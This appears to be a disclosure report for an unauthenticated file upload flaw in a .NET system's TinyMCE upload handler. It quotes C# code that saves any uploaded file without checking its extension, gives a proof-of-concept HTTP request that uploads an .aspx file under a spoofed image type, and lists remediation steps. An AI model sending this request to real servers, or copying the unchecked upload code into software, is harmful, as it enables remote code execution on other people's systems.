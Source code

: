 ![image-20250203114541423](./assets/image-20250203114541423.png)

![image-20250203114606092](./assets/image-20250203114606092.png)

# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

### Summary:
An unauthenticated file upload vulnerability has been identified in the .NET system. This vulnerability allows an attacker to upload arbitrary files, including potentially malicious ASPX files, which can lead to remote code execution and full server compromise.

### Affected Endpoint:
`/Api/TinyMce/UploadAjax.ashx`

### Vulnerability Type:
Unauthenticated File Upload

### Vulnerable Code:
```csharp
else
{
    //上传其他文件 .pdf, .txt, .zip, .rar, .7z, .doc, .docx, .xls, .xlsx, .ppt, .pptx
    string path = "/fileRoot/tinymce/otherfile/" + Guid.NewGuid().ToString() + file.FileName;
    file.SaveAs(context.Request.MapPath(path));
    var obj = new
    {
        location = path,
        type = "file",
        name = file.FileName
    };
    string json = JsonConvert.SerializeObject(obj);
    context.Response.Write(json);
}
```

### Proof of Concept (PoC):
```http
POST /Api/TinyMce/UploadAjax.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/jpeg

Test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:
The vulnerability allows an attacker to upload any file, including executable files such as ASPX scripts. Once uploaded, the attacker can execute arbitrary code on the server, potentially gaining full control over the server, accessing sensitive data, modifying or deleting files, and performing other malicious activities.

### Recommendation:
1. **File Type Validation**: Implement strict validation to ensure only allowed file types can be uploaded. For example, only permit `.pdf`, `.txt`, `.zip`, `.rar`, `.7z`, `.doc`, `.docx`, `.xls`, `.xlsx`, `.ppt`, and `.pptx` file extensions.
2. **Authentication**: Require authentication for file upload endpoints to prevent unauthenticated users from uploading files.
3. **Content Inspection**: Perform content inspection to ensure uploaded files match their declared MIME types and do not contain executable code.
4. **Upload Directory Permissions**: Configure the upload directory with appropriate permissions to prevent execution of uploaded files.
5. **Logging and Monitoring**: Implement logging and monitoring for file upload activities to detect and respond to suspicious activities promptly.

### Conclusion:
The identified vulnerability poses a significant security risk as it allows unauthenticated users to upload and execute arbitrary files on the server. Immediate remediation is necessary to prevent potential exploitation and ensure the security of the server and its data.

### References:
- [OWASP File Upload Security](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [Microsoft Secure Coding Guidelines](https://learn.microsoft.com/en-us/security/engineering/secure-coding)